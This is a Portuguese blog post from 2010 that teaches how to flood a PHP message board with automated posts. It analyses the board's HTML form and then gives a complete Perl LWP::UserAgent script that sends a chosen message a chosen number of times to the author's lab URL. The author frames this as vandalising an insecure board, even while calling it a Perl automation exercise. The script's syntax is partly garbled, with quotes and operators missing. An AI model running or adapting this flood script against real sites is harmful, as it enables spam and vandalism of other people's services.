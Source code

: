 ```yaml
---
layout: post
title: Floodando mural com Perl
date: 2010-11-29 15:32
author: obrerodrigues
comments: true
categories: [Hacking]
tags: [programacao]
---
```


Porra, cada vez mais que eu uso perl, mas vejo o quanto de coisas que dá pra se fazer usando o mesmo, final de semana passado, começei a ver o que daria pra fazer com sites usando perl.

Usando a <a href="http://search.cpan.org/~gaas/libwww-perl-5.837/lib/LWP/UserAgent.pm" target="_blank">LWP::UserAgent</a>, o céu é o limite :P

Vou exemplificar aqui nesse post como esquematizar o ataque, e como usar o código, resolvi fazer isso depois de ver que matérias sobre Perl em português não são muito comuns ...

Basta saber o básico de HTML, saber também como as requisições funcionam, e um pouco de Perl pra entender o post.

Vou usar esse código aqui para simular um ataque: <a href="http://www.codigofonte.net/scripts/php/mural/1381_mural-com-bd-em-txt" target="_blank">http://www.codigofonte.net/scripts/php/mural/1381_mural-com-bd-em-txt</a>

É um mural de recados escrito em PHP, e que não precisa de um banco de dados, os recados são salvos num arquivo txt, o código é simples, vulnerável a XSS, mas isso não vem ao caso, ele só vai nos servir de exemplo, pra mostrar como a coisa funciona.

Primeiramente você deve colocar o mural hospedado em algum lugar, você pode instalar um servidor web com o PHP fácil no seu próprio computador, existem pacotes como o <a href="http://www.codigofonte.net/scripts/php/mural/1381_mural-com-bd-em-txt" target="_blank">XAMPP</a>, ou uma maneira mais fácil é você criar uma conta em algum desses servidores de hospedagem gratuitos com suporte a PHP que existem por ai a fora, sinceramente gosto muito do <a href="http://www.freewebhostingarea.com/" target="_blank">http://www.freewebhostingarea.com/</a>.

Caso queira, você pode usar o meu lab pessoal: <a href="http://ripper.eu5.org/labs/uploads/mural/index.php" target="_blank">http://ripper.eu5.org/labs/uploads/mural/index.php</a>, agora não garanto que esteja on-line pra sempre.

Ok, agora temos o mural funcionando, recados podem ser mandados para o site, basta pôr um nome, e-mail e a mensagem desejada...

Mas e se quisermos vandalizar o mural inseguro? Existem várias maneiras, mas vou te dizer como fazer isso com o perl.

Analizando o código, achei a seguinte linha interessante:
<p id="line1">FORM name=email2 onsubmit="return checkemail()" action=enviar_msg.php?a=confirma method=post
São os paramêtros do form que envia a mensagem para o mural de recados, vou destacar logo o que importa, o paramêtro "action" e o "method", nos diz que usando o método POST o form envia os dados para a página "enviar_msg.php?a=confirma".

Sim, mas e dai?

Com o perl podemos enviar requisições para o servidor, é o que vamos fazer.

Analisando ainda mais o código, observa-se que existem três inputs no form:

INPUT id=nome

INPUT id=email

INPUT id=message

O que nos importa são as ID's, é o que vai se usar no código perl para enviar o post.

Ok, agora sabemos que o form envia para a página enviar_msg.php junto com o paramêtro a=confirma, o nome, email e message.

Agora é que entra o perl, não vou explicar muito porque não tô afim, mas se você provavelmente entendeu até aqui, vai entender o código:

```

#!/usr/bin/perl

use LWP::UserAgent;

print Floodando com perl\n;

print Coloque sua mensagem: ;
my $msg = STDIN; chomp $msg;

print \nColoque o numero de vezes que a msg sera enviada: ;
my $count = STDIN; chomp $count;
my $begin = 1;

while ($begin = $count) {

$U=http://ripper.eu5.org/labs/uploads/mural/enviar_msg.php?a=confirma;
$lwp=LWP::UserAgent-new;
$res=$lwp  -post($U,[
'nome'     ='Brenn0',
'email'   ='whatever@gmail.com',
'mensagem' =$msg . $begin,
]);

$begin++;
print Mensagem numero  . $begin .  enviada...\n;
}

print \nFlood Completo!\n;
print Coded By Brenn0 (:;
exit 0;

# http://brenn0.wordpress.com

```

Básico, 32 linhas de código contando as que ficaram em branco, para um mal programador como eu, até que ficou organizadinho.

Atente para a parte do código onde se inicia o While e até onde ele termina, é ali que mora a parte legal, é onde se monta e se envia a requisição, a graça disso não é sair flodando todo e qualquer mural que se achar por ai, mas o poder que o perl dá em fazer algumas coisas, como automatizar tarefas repetitivas, claro que poderiamos ter feito isso de outras maneiras, como usando a extensão Imacs do firefox, mas nem sempre o mais fácil é mais legal :P

Eeee, fim de post, depois de um longo periodo de tempo sem nada, pensando bem não faz lá muito tempo, o mês é que foi longo, o cefet continua tentando me matar, e eu também continuo tentando o mesmo ...

Enfim, sono, preguiça e estudos, alcool, ociosidade, insanidade, são uma boa combinação (:

